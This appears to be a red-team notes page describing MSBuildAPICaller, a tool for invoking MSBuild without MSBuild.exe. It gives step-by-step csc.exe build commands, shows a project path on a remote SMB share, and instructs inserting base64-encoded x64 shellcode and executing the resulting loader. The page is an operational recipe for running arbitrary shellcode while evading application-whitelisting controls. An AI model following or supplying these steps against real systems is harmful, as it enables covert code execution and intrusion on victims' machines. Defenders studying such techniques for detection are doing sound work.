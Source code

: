```yaml
---
description: MSBuild Without MSBuild.exe
---
```


# MSBuildAPICaller

Link: [https://github.com/rvrsh3ll/MSBuildAPICaller](https://github.com/rvrsh3ll/MSBuildAPICaller)

## How to build and execute

**Step 1: Build IEShim.cs**

`C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.Tasks.v4.0.dll";"Microsoft.Build.Utilities.v4.0.dll" /target:library IEShim.cs`

**Step 2**: Change ProjectPath

Modify "projectPath" variable on line 60 of msbuildapicaller.cs to your needs

Example: `string projectPath = '\\192.168.1.100\share\msbuildapicaller.csproj';`

**Step 3:** Add shellcode

Replace with your base64 encoded x64 shellcode in msbuildapicaller.csproj

**Step 4:** Change variable

Replace AssemblyFile variable with the location of your compiled dll from step 1

**Step 5:** Build msbuildapicaller.cs

`C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe /reference:"Microsoft.Build.Framework.dll";"Microsoft.Build.dll";"Microsoft.Build.Engine.dll";"Microsoft.Build.Utilities.v4.0.dll";"System.Runtime.dll" /target:exe msbuildapicaller.cs`

### 

Step 6: Execute msbuildapicaller.exe



